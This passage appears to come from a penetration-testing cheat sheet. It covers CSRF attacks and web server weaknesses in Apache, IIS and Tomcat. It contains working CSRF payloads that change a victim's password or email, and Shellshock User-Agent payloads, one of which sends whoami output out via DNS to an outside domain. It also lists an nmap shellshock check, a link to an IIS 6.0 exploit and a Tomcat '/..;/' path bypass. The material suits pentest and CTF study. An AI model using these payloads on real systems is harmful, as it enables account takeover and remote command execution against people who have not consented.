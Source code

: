         - Replace only apply first match 

#### CSRF
- POST
```html
<form id="myForm" name="myForm" action="/change_pass.php" method="POST">
<input type=hidden name="password" id="password" value="meowmeow"/>
<input type=hidden name="confirm_password" id="confirm_password" value="meowmeow"/>
<input type=hidden name="submit" id="submit" value="submit"/>
<script>document.createElement('form').submit.call(document.getElementById('myForm'))</script>
```

- Get CSRF Token Before POST
```javascript
function post_data(csrf_token){
    var xhr = new XMLHttpRequest();
    xhr.open("POST", '/my-account/change-email', true);
    xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xhr.send("email=meow%40meow.meow&csrf="+csrf_token);
}

function get_csrf() {
    var re = /[A-Za-z0-9]{32}/g;
    csrf_token = this.responseText.match(re)[0];
    post_data(csrf_token);
}

var get_csrf_request = new XMLHttpRequest();
get_csrf_request.addEventListener("load", get_csrf);
get_csrf_request.open("GET", "https://xxx/my-account");
get_csrf_request.send();
```

### Server
#### Apache
- Default log path
    - `/var/log/apache2/access.log`
- Shell Shock
    - Exist some path like `/cgi-bin/*.sh`
        - `dirsearch.py -u http://{IP}/cgi-bin  -e cgi`
    - Add `() { :;}; echo; /usr/bin/id` to User-Agent
        - Must use Absolute path
        - `User-Agent: (){ :; }; /bin/ping -c 1 {MY_IP}`
        - `USer-Agent: () { :; }; /usr/bin/nslookup $(whoami).meow.org`
            - DNS Only
    - nmap test
        - `nmap {IP} -p {PORT} --script=http-shellshock --script-args uri=/cgi-bin/{FILE_NAME}.cgi`
- Default config path
    - `/etc/httpd/conf/httpd.conf`
#### Nginx
#### IIS
- Default web root path
    - `C:\inetpub\wwwroot`
- IIS 6.0
    - [CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)
        - Can only run once!!
#### Tomcat
- Tomcat Path
    - `/manager/status/all`
    - `/admin/dashboard`
- Path Bypass
    - With `/..;/`
        - e.g. `/manager/status/..;/html/upload`